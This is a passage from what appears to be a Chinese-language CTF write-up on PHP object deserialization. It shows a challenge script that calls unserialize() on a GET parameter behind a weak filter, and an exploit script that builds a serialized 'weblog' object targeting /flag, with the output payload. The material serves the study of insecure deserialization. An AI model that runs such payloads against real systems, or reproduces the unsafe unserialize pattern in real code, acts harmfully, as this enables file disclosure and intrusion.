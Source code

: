 ```php
        $str = preg_replace("/[<>*#'|?\n ]/", "", $str);
        $str = str_replace('flag', '', $str);
        return $str;
    }

    function __destruct()
    {
        echo "this is destruct";
    }
}
$log = $_GET['log'];
$log = preg_replace("/[<>*#'|?\n ]/","",$log);
$log = str_replace('flag','',$log);
$log_unser = unserialize($log);
?>

```

反序列：

```php
<?php
class weblog
{
    public $weblogfile="/flag";

    function __construct()
    {
        $flag = "system('cat /flag')";
        echo "$flag";
    }
    function __wakeup()
    {
        // self::waf($this->filepath);
        $obj = new logger($this->weblogfile);
    }

    public function waf($str)
    {
        $str = preg_replace("/[<>*#'|?\n ]/", "", $str);
        $str = str_replace('flag', '', $str);
        return $str;
    }

    function __destruct()
    {
        echo "this is destruct";
    }
}
$a = new weblog();
echo serialize($a);

?>
    
//system('cat /flag')O:6:"weblog":1:{s:10:"weblogfile";s:5:"/flag";}this is destruct
```

